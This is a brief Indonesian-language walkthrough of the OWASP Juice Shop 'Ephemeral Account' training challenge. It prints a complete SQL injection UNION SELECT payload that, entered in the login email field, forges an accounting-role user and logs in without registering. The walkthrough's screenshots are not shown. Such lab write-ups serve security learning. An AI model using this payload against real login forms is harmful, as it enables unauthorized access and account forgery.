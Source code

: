 # Ephemeral Account

Link Resource: https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

### Jawaban

1. Mencari tahu bagaimana database untuk users
<img width="1838" height="1038" alt="image" src="https://github.com/user-attachments/assets/5ebb5a46-dcd8-4e20-a839-bef21adcad80" />

2. Membuat payload `' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--` lalu dimasukkan ke bagian email dan login berhasil tanpa perlu register
<img width="1820" height="1035" alt="image" src="https://github.com/user-attachments/assets/fa2e797c-5d45-44f0-80b1-fc8cb4af7a53" />

<img width="894" height="837" alt="image" src="https://github.com/user-attachments/assets/3449aef9-5ccc-448f-b290-8a04bb817286" />

<img width="2004" height="83" alt="image" src="https://github.com/user-attachments/assets/da04c3e2-c3cc-45c9-92a7-c390d22ea5b6" />
